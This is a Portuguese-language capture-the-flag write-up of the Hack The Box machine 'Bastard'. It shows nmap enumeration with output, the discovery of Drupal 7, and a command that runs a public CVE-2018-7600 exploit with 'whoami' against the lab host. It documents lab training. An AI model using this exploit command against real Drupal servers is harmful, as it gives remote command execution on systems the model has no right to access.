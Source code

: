 ```yaml
---
title:     "Hack The Box - Bastard"
tags: [windows,medium]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/1.jpg)

## Enumeration

Inicialmente, utilizamos o nmap para obter informacoes por exemplo: version, ports, status, vulns...

```
root@kali:~/HTB-Windows/bastard# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:06 EDT
Nmap scan report for 10.10.10.9
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 430.79 seconds
```

Um novo scan apenas com as portas encontradas e assim obter versionamento.

```
oot@kali:~/HTB-Windows/bastard# nmap -sV -p80,135 -oN nmap/version 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 23:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.19s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.51 seconds
```

Navegando ate o servido HTTP na porta 80, indentificco um DRUPAL

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/2.jpg)

Huuuuuum... Veriricando o source do site eu vejo que trata-se de um **DRUPAL 7** e de acordo com minha experiencia existe exploits pra versao.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/3.jpg)

## Find exploits

Uma busca rapida encontramos varias formas de explorar

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/4.jpg)


## Exploitation

Encontrei um exploit interessante e precisamos testar **CVE-2018-7600**

***reference*** https://github.com/pimps/CVE-2018-7600.git

Realmente eh vulneravel

`python drupa7-CVE-2018-7600.py -c whoami http://10.10.10.9/`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/5.jpg)


